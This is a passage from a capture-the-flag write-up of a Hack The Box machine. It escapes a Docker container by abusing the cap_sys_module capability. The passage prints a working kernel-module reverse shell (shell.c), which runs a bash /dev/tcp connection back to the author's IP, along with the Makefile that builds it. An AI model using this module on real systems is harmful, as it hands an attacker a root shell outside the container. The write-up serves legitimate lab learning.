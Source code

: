    Looking at the hostname, I am certainly inside a docker, and I have to find a way to get out it. 

This time again after running `deepce.sh`, it returned two highlighted capabilities and showed two files inside root directory.

![image-20211021132959675](/image/hackthebox/monitors/image-20211021132959675.png)

Files are kernel modules;

```bash
[+] Interesting files in root ........... Yes                                                      
/linux-headers-4.15.0-132_4.15.0-132.136_all.deb                                                                               
/linux-headers-4.15.0-132-generic_4.15.0-132.136_amd64.deb 
```

This looks like potential path to exploit.

I will first go with `cap_sys_module`. For this exploit I refered to this blog from [Pentester's Academy](https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd). It showed I need to make two different files `shell.c` and `Makefile`.

1. I will just copy the source code and replace IP address to mine naming it `shell.c` .

```c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.55/9001 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
	return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
	printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

2. Then create a `Makefile`.

```makefile
obj-m +=shell.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

Now that I have both files under one directory.
